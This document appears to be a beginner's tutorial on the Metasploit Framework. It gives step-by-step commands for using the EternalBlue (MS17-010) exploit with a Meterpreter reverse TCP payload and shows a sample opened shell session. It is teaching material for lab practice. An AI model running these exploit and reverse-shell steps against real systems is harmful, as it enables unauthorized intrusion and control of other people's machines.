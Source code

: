 # 🔧 What is the Metasploit Framework?
As the name suggests, Metasploit is an exploitation framework used for identifying, exploiting, and managing vulnerabilities on target systems.
----------
## 🧱 Module Types in Metasploit
| Module Type | Description                                                 |
|-------------|-------------------------------------------------------------|
| exploit     | Code that uses a vulnerability to gain access              |
| payload     | Code that runs after a successful exploit, such as a reverse shell |
| auxiliary   | Tools for scanning, brute force, and info gathering (not actual exploits) |
| post        | Actions done after exploitation, like dumping passwords    |
| encoder     | Encodes the payload (used sometimes to evade detection)    |
| nop         | Adds padding (no operation), used for payload stability    |


---

## 🔍 Finding and Using Exploits
You can search, review, and use exploits like this:
-  This exploit is for example (exploit/windows/smb/ms17_010_eternalblue)

```
search eternalblue
```
```
info exploit/windows/smb/ms17_010_eternalblue
```
```
use exploit/windows/smb/ms17_010_eternalblue
```

This exploit targets a known Windows vulnerability: MS17-010 (EternalBlue).


---


##   🎯 Selecting a Payload

### What is Payload?
- A payload is the code that runs after exploiting a vulnerability. It gives you access to the target system

After choosing the exploit, you need to choose what it will execute.
Example: show compatible payloads

```
show payloads

set payload windows/x64/meterpreter/reverse_tcp
```
## ⚙️ Setting Options
Each module and payload has required options. You must configure them:


| Command             | Description                        |
|---------------------|------------------------------------|
| `show options`      | Displays available module options  |
| `set RHOSTS 10.10.xxx.xxx` | Sets the target IP address         |
| `set LHOST 10.10.xxx.xxx` | Sets your local (attacker) IP       |
| `set LPORT 4444`         | Sets the port to listen for reverse shell |


### 🚀 Running the Exploit
Once everything is set, run the exploit:
```
exploit 
```
or
```
run
```
If successful, you will get shell access to the target:
```
[*] Command shell session 1 opened (10.10.xx.xx:4444 -> 10.10.xxx.xxx:49366)
```
### Detailed meaning:⬆️
- Command shell session 1 opened
- This means an active command shell session has been established with the target machine.
- You can now send commands to the remote system.

`(10.10.xx.xx:4444 -> 10.10.xxx.xxx:49366)`
⬆️ This shows the connection between two computers:

`10.10.xx.xx:4444` — your machine’s IP and port where it is listening (the listener).

`10.10.xxx.xxx:49366` — the target machine’s IP and its port used to connect back to your listener.

---
 
## 🧠 Important Terms

| Term    | Meaning                                   |
|---------|-------------------------------------------|
| RHOSTS  | Remote host (the victim IP)                |
| LHOST   | Local host (your machine IP)                |
| LPORT   | Local port (where you'll receive the connection) |
| exploit | The vulnerability being used                |
| payload | What is executed after the exploit succeeds |
| session | An open connection to the compromised target |

---

## 🧪 Example: EternalBlue

| Command                          | Description                                    |
|---------------------------------|------------------------------------------------|
| `use exploit/windows/smb/ms17_010_eternalblue` | Select the EternalBlue exploit module          |
| `set payload windows/x64/meterpreter/reverse_tcp` | Set the payload to a Windows 64-bit Meterpreter reverse TCP shell |
| `set RHOSTS 10.10.12.229`       | Set the target IP address                       |
| `set LHOST 10.10.186.44`        | Set your local IP address (attacker machine)   |
| `set LPORT 4444`                | Set the local port to listen for the connection |
| `exploit`                      | Run the exploit                                |

If the target is vulnerable and the payload connects, you’ll get a shell session.

---

## 🖥️ Managing Sessions
If the exploit succeeds, you can:

| Command         | Action                 |
|-----------------|------------------------|
| `CTRL+Z`        | Background the session  |
| `sessions`      | List active sessions   |
| `sessions -i 1` | Interact with session 1 |
| `sessions -k 1` | Kill session 1         |


You can also rename, upgrade, or run scripts on sessions.
```
sessions -h    # Show session options/help
```

---

## ✅ Summary
To use Metasploit exploits, you need to:

- Find a working exploit and use it

- Choose the correct payload

- Set RHOSTS (victim), LHOST (your IP), and LPORT

- Run the exploit and manage the session

This is the foundation of exploitation. After this, you can move on to:

- Manual payload creation with `msfvenom`ruu

- Post-exploitation tasks

- Custom shell creation


-------



> ## ⚠️ Disclaimer
All commands and procedures shown here work in an ideal test environment. In real-world scenarios, issues may arise due to:

> - Firewall rules

> - Antivirus software

> - Different OS versions

> - Access permissions and restrictions

> - Network configurations

This is the basic principle and guideline for using Metasploit. Real-world use requires adjustments and experimentation.
